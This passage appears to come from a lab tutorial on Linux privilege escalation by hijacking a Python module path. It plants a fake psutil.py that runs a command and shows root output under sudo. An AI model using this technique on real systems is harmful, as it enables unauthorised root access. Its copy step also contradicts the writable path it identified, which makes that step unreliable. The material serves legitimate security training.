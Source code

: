 In order to exploit this We must have write permissions to one of the paths having a higher priority on the list.
 
 let us continue with the previous example and show how this can be exploited. Previously, the `psutil` module was imported into the `mem_status.py` script. We can see `psutil`'s default installation location by issuing the following command:
```shell
crytix@lpenix:~$ pip3 show psutil

Location: /usr/local/lib/python3.8/dist-packages

<SNIP>
```
we can see that `psutil` is installed in the following path: `/usr/local/lib/python3.8/dist-packages`. From our previous listing of the `PYTHONPATH` variable, we have a reasonable amount of directories to choose from to see if there might be any misconfigurations in the environment to allow us `write` access to any of them. Let us check.

```shell
$ ls -la /usr/lib/python3.8

total 4916
drwxr-xrwx 30 root root  20480 Dec 14 16:26 .
...SNIP...
```
it appears that `/usr/lib/python3.8` path is misconfigured in a way to allow any user to write to it. Cross-checking with values from the `PYTHONPATH` variable, we can see that this path is higher on the list than the path in which `psutil` is installed in.
Now lets create our module that will get executed before the original and place it 
under `/dist-packages`, we'll have to name it `psutil.py` so python recognizes the name
```python
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
```
copy our fake module to dist-packages
```
cp psutil.py  /usr/local/lib/python3.8/dist-packages
```
test
```shell-session
$ sudo /usr/bin/python3 mem_status.py
or $ sudo -u root /usr/bin/python3 /home/htb-student/mem_status.py

uid=0(root) gid=0(root) groups=0(root)
```
As we can see from the output, we have successfully gained execution as `root` through hijacking the module's path via a misconfiguration in the permissions of the `/usr/lib/python3.8` directory.

---
## PYTHONPATH Environment Variable

